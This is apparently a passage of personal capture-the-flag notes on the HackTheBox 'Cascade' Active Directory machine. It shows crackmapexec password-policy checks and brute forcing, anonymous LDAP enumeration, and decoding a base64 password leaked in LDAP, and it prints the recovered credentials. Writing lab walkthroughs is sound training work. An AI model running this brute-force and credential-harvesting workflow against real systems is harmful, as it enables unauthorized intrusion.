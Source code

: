 `sort -u t > passwords`

Before running this brute force, check the password policy. 

Can check with #crackmapexec 

`crackmapexec smb 10.10.10.182 --pass-pol`

![[Pasted image 20250112190748.png]]
Min password length is 5
No lockout threshold. G2G.

Time to bruteforce with #crackmapexec 

`crackmapexec smb 10.10.10.182 -u users.lst -p passwords`

While this is bruteforcing, enumerate #LDAP 

Using #ldapsearch 

`ldapsearch -x -h 10.10.10.182 -s base namingcontexts` to get what the domain is. DC=cascade,DC=local

![[Pasted image 20250112191216.png]]
Use that info for next query:

`ldapsearch -x -h 10.10.10.182 -s sub -b 'DC=cascade,DC=local' > tmp

Sorting this information by # of times it occurs. Checking for anomalies. 

`cat tmp | awk '{print $1}' | sort | uniq -c | sort -nr`

![[Pasted image 20250112191706.png]]

Using this string to search through the entire ldapsearch and get a password. 

![[Pasted image 20250112191848.png]]
and getting sam account name: r.thompson

![[Pasted image 20250112191934.png]]
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250607210001.png]]
Decode base64 password with 

`echo -n clk0bjVldmE= | base64 -d`

![[Pasted image 20250112200612.png]] 

Pass is: rY4n5eva

Testing these creds with #crackmapexec 

`crackmapexec smb 10.10.10.182 -u r.thompson -p rY4n5eva`

![[Pasted image 20250112200824.png]]
Login, but no pwned. 

Try with winrm 
